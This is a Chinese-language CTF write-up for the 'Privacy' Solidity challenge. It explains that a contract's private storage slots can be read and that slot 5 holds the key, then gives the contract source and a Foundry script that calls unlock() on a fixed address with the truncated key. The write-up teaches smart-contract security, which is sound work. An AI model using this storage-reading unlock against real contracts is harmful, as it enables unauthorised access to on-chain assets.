


## Privacy

### 目标：

需要成功解锁这个合约，使`locked = false`

### 思路：

这道题也是一个存储槽问题，观察源代码，想要使`locked = false`,只有一个`unlock`函数可以直接解锁，但是需要知道`bytes16(data[2])`，每一个存储槽中存储32个字节，所以data[2]中的数据应该在第五个存储槽中，但是得到是32字节的数据，需要把它变成16个字节，直接转换`bytes32 _key = bytes16(0x33bfb38e70a4018d983ea445951d5fc2c1da5d8e8fe182da6d11f33a4c48a291);`会发生报错，我直接截取了这串数据的前16个字节作为`_key`，` bytes16 _key = 0x33bfb38e70a4018d983ea445951d5fc2;`



### 源码：

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }

    /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
    */
}
```

### poc：

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";

interface ITarget{
    function unlock(bytes16 _key) external;
}

contract Attack is Script{
    ITarget public target = ITarget(0xB87a89d22c4CF359E37C14BCD0eb62bEe2fe35dC);
    function run() external{
        vm.startBroadcast();

        bytes16 _key = 0x33bfb38e70a4018d983ea445951d5fc2;
        target.unlock(_key);

        vm.stopBroadcast();
    }
}
```


